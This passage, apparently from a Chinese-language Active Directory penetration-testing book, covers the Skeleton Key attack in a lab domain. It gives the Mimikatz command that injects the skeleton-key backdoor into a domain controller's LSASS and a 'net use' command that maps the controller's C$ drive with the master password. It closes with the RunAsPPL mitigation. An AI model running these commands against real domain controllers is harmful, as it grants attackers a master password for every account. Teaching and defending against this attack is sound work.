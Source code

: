 注意

关于骨架密钥内存操作的更详细描述可以在此处找到：[`adsecurity.org/?p=1255`](https://adsecurity.org/?p=1255)。

Mimikatz 已经掌握了此攻击。以下命令会注入骨架密钥恶意软件：

```
mimikatz.exe „privilege::debug" „misc::skeleton" „exit"
```

以下展示了成功攻击域控制器的示例：

![图 7.28 – 骨架密钥恶意软件已在域控制器上部署](img/B18964_07_28.jpg)

图 7.28 – 骨架密钥恶意软件已在域控制器上部署

现在，为了确认，我们在不知道特权用户密码的情况下映射了域控制器的 **C:\** 驱动器：

```
net use Y: \\kingslanding.sevenkingdoms.local\c$ mimikatz /user:sevenkingdoms\robert.baratheon
```

磁盘成功映射：

![图 7.29 – Skeleton Key 生效](img/B18964_07_29.jpg)

图 7.29 – Skeleton Key 生效

为了部分缓解 Skeleton Key 攻击，我们通过在 **HKLM\SYSTEM\CurrentControlSet\Control\Lsa** 注册表项中创建 **DWORD** 值 **RunAsPPL** 并设置为 **1** 来将 LSASS 作为受保护进程运行。如微软所述，"*这将防止非管理员的非 PPL 进程通过打开进程函数访问或篡改 PPL 进程中的代码和数据。*"

在以下屏幕截图中，我们可以看到原始的 Skeleton Key 攻击失败了：
